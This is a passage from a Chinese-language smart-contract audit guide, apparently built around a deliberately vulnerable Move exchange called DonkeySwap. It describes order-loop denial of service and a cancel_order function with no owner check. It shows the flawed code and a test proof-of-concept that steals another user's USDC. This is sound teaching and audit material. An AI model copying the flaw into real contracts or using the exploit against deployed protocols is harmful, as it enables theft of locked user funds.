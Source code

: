 - 在 get_order_by_id 函数中，它被 cancel_order 和 fulfill_order 调用。
- 在 fulfill_orders 函数中，它被 add_liquidity 调用。
- 在 drop_order 函数中，被 cancel_order 和 execute_limit_order 调用。

#### 影响

由于这些函数都可以通过注册大量的订单而被阻止，攻击者有可能会

- 永久阻止所有用户取消或履行限价订单，永久锁定在协议中的资金。
- 永久阻止用户兑换、增加流动性和创建限价兑换订单。

#### 建议

避免对每个订单进行循环，而是要考虑限制每个循环的迭代次数，并构建费用以激励用户履行彼此的订单。

## 3. 不当的访问控制

接受一个&signer 参数并不足以实现访问控制， 一定要断言签名者是预期的账户。

### DonkeySwap: 不恰当的 cancel_order 功能访问控制

- 类别：编码错误
- 严重程度：关键
- 影响：严重
- 可能性: 高

#### 描述

在取消订单并将资产转移给调用者之前，cancel_order 函数没有断言签名者是订单的所有者：

```
public fun cancel_order<BaseCoinType>(
        user: &signer,
        order_id: u64
    ) acquires OrderStore, CoinStore {
        // [...]
        deposit_funds<BaseCoinType>(order_store, address_of(user), order.base);
        // [...]
}
```

#### 影响

攻击者有可能通过取消每个用户的订单，耗尽任何币种的所有锁定的流动性：

```
##[test(admin=@donkeyswap, user=@0x2222)]
fun WHEN_exploit_improper_access_control(admin: &signer, user: &signer) acquires CoinCapability {
    setup_with_liquidity(admin, user);

    // let's say the admin deposits some USDC

    let my_usdc = 1000000000000000;
    mint<USDC>(my_usdc, address_of(admin));
    let order_id = market::limit_swap<USDC, ZEL>(admin, my_usdc, 1000000000000000);

    // now, let's try stealing USDC from the admin

    assert!(coin::balance<USDC>(address_of(user)) == 0, ERR_UNEXPECTED_BALANCE);
    assert!(coin::balance<ZEL>(address_of(user)) == 0, ERR_UNEXPECTED_BALANCE);

    market::cancel_order<USDC>(user, order_id); // order owned by admin, but signer is user!

    assert!(coin::balance<USDC>(address_of(user)) == my_usdc, ERR_UNEXPECTED_BALANCE);
    assert!(coin::balance<ZEL>(address_of(user)) == 0, ERR_UNEXPECTED_BALANCE); // received ZEL?
}
```
